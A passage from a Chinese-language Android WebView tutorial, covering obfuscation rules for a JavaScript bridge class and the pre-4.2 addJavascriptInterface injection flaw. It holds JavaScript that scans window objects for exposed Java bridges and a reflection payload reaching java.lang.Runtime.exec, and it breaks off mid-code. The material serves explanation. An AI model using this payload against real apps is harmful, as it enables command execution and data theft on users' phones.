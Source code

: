 
### 七、WebView与JS调用混淆问题
正常情况下WebView和JS是可以互相调用的，到那时当把apk发布时需要一个release包，而release包通常需要混淆处理，就会发生WebView与JS无法调用。
比如
1、创建一个类

```Java
public class WebHost{
	private Context context;
	public WebHost(Context context){
		this.context=context;
	}
	public void callJs(){
		Toast.makeText(context,"call form js",Toast.LENGTH_LONG);
	}
}
```
2、然后在MainActivity中添加

```Java
webView.getSetting().setJavaScriptEnable(true);
webView.addJavaScriptInterface(new WebHost(this),"js");
```
3、最后在html页面中添加一个js方法,并给某个按钮添加监听

```JavaScript
function call(){
	js.callJs();
}
```

此时运行app是可以正常调用js的方法的，但是对代码混淆后，却发现不能用了，这时需要在混淆配置文件中将相应的类添加进入
```
-keep public class com.example.webview01.WebHost{
	public <methods>;
}
```
这时混淆后的代码就可以正常执行了 


### 八、WebView导致的远程注入问题 
如果通过恶意代码从web页面拿到手机上的照片等信息，会很危险。4.2之后已修复。
如下面的js代码，遍历js对象，拿到映射的java对象

```JavaScript
function check(){
	for(var obj in window){
		try{
			if("getClass" in window[obj]){
				try{
					window[obj].getClass();
					document.write('<span style="color:red;font-size:22px">'
					+obj+'</span>');
					document.write('<br />');
				}catch(e){}
			}
		}catch(e){
		}
	}
}

//通过反射加载一个Runtime类
function execute(cmdArgs){
	return searchBoxJavaBridge_.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}

try{
```